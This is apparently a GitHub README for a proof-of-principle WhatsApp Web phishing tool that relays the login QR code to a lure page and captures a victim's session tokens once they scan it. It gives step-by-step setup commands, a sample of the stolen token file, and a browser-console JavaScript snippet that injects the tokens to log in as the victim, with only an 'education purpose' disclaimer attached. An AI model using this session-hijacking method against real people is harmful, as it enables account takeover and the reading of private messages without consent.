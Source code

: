 #Whatsapp phishing

This repo contains proof of principle code for running a phishing attack against the official [Whatsapp Web client](https://web.whatsapp.com).

##Whatsapp what?

http://www.whatsapp.com/faq/web/28080003

Short: A web client for Whatsapp. You log in by scanning a QR code on there page using Whatsapp

##What does it do

It will extract the QR code from [Whatsapp Web](https://web.whatsapp.com) and display it on a new page.
If someone scans the code using Whatsapp it will grab the credentials from the web client and save them in a file.
You can use these credentials to log yourself in as the person who scanned to QR code.

##How does it work

The program uses node.js and socket.io for the website and selenium, a tool for scripting browsers, to communicate with the Whatsapp web client.

The program starts a http and a socket.io server. If a new client connects to socket.io the application will make a request to a selenium instance to start a new browser and connect to web.whatsapp.com. It will fetch the QR code data and send it to the client via the websocket connection. The client javascript then shows the QR code to the user.

If the QR code gets scanned Whatsapp will authenticate the selenium controlled browser and store some tokens in the localStorage and document.cookie. We extract that data and save it into a text file. It will look like so:

```
{
   "s":{
      "remember-me":"true",
      "WAVersion":"\"0.1.4391\"",
      "qwefsdafadsdf==":"false",
      "debugCursor":"146",
      "WAWamDimensionCache":"{\"AppVersion\":\"0.1.4391\",\"BrowserVersion\":\"Firefox 39.0\",\"DeviceName\":\"Linux x86_64\",\"WebcEnv\":0}",
      "WAToken2":"\"0.asldkamäsdflkasdfasdf\"",
      "WAWamLastRotate":"1439140177924",
      "WALangPref":"\"de-DE\"",
      "WAWamStatus":"\"completed\"",
      "y8fY/zQ8P+asdfadfg==":"[
        ...
      ]",
      "WAToken1":"\"asdf+ams,dfhlaskdjfhasdfasdf=\"",
      "Dexie.DatabaseNames":"[\"wawc\"]",
      "storage_test":"storage_test",
      "LKAJsdlksdjfasdf==":"false",
      "logout-token":"\"alkjsdhfkjashldkjpweoaLKNKASBkasjbdaksdjLKjhhndosiaosa;AljkhJKhlKAJShkljqjDJSAOlkjbnhasdklWAdm==\"",
      "ver":"1",
      "whatsapp-mutex":"\"x781239870495:init0.987123490234\"",
      "WASecretBundle":"{\"key\":\"sldkfjsdf+asdlfijlasdkjfasdf=\",\"encKey\":\"asldkfjasldkfjsdfsdf0=\",\"macKey\":\"a,sdfasdf+alskdjföalskdhiopasdf=\"}",
      "WABrowserId":"\"aö,ksdjflöasdf==\""
   },
   "c":""
}
```

You can than import these tokens into your browser and log in as the person who scanned the QR code.

##Instructions

   * Download the [selenium standalone server](http://www.seleniumhq.org/download/) jar file and install Firefox if you don't already have it.
   * Type the following into your terminal
   
    ```
    $ java -jar selenium-server.jar
    $ # new terminal
    $ git clone https://github.com/Mawalu/whatsapp-phishing.git
    $ cd whatsapp-phishing
    $ npm install
    $ node index.js
    ```
   * Open your browser and go to [http://localhost:8080](http://localhost:8080)
   * Start Whatsapp on your smartphone, go to Menu > Whatsapp Web and scan the QR code from your browser.
   * Copy the content from the newly created secrets file
   * Open web.whatsapp.com. (Watch out that you are not already logged in, maybe use incognito mode)
   * Open your developer console
   * Enter the following code:
   
   ```
   > var t = CONTENT_OF_YOUR_SECRETS_FILE
   > function login(token) {Object.keys(token.s).forEach(function (key) {localStorage.setItem(key, token.s[key])}); token.c = token.c.split(';'); token.c.forEach(function(cookie) {document.cookie = cookie; });}
   > login(t)
   ```
   * Reload the page
   * You should be logged in as the person who scanned the QR code

##Disclaimer

Whatsapp messages are meant to be private. Just because the NSA reads everything it doesn't mean you should do as well! Everything in this repo is for education purpose only and I am not responsible if you use it otherwise.
